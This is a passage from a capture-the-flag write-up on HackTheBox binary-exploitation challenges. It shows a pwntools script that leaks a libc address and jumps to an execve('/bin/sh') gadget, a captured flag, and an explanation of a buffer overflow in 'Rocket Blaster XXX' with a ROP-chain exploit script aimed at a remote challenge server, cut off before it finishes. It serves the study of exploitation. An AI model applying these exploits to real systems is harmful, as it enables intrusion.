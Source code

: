 ```python
rl()
leaked = u64(lj(rud(b'\n'), 8, b'\0'))
assert leaked & 0xfff == 0x0f0
li(f"Leaked: {hex(leaked)}")
libc.address = leaked - 0x1100f0
li(f"Libc address: {hex(libc.address)}")
assert libc.address & 0xfff == 0
p = flat(cyclic(0x48), libc.address + 0x4f2a5) # execve("/bin/sh", rsp+0x40, environ)
sl(p)
com()
```

![chall-sc](https://hackmd.io/_uploads/Bk2xJ71Cp.png)

Flag: `HTB{c0nf1gur3_w3r_d0g}`

# 5. Rocket Blaster XXX (_easy_)

There is a buffer overflow vulnerability in read(0, buf, 0x66uLL). Additionally, there is a function named fill_ammo() that displays the flag on the screen if the Destination Index Register, Source Index Register, and Data Register meet the requirements based on the code when we call the fill_ammo() function. Therefore, we just need to create a ROP chain to exploit this vulnerability

![chall-sc](https://hackmd.io/_uploads/SJwU6myCT.png)

![chall-sc](https://hackmd.io/_uploads/r1HBBObAp.png)

```python
from pwn import *
exe = './rocket_blaster_xxx'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc 94.237.51.96 42628".split(" ")[1:3]
io = remote(host, port)
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
ru = lambda a: io.recvuntil(a)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
rl = lambda: io.recvline()
com = lambda: io.interactive()
li = lambda a: log.info(a)
rud = lambda a:io.recvuntil(a, drop=0x1)
r = lambda: io.recv()
int16 = lambda a: int(a, 16)
rar = lambda a: io.recv(a)
rj = lambda a, b, c : a.rjust(b, c)
lj = lambda a, b, c : a.ljust(b, c)
d = lambda a: a.decode('utf-8')
e = lambda a: a.encode()
cl = lambda: io.close()

p = cyclic(0x28)
p += p64(0x000000000040101a)
p += p64(0x000000000040159f)
p += p64(0xDEADBEEF)
p += p64(0x000000000040159d)
p += p64(0xDEADBABE)
p += p64(0x000000000040159b)
p += p64(0xDEAD1337)
p += p64(0x00000000004012f5)
```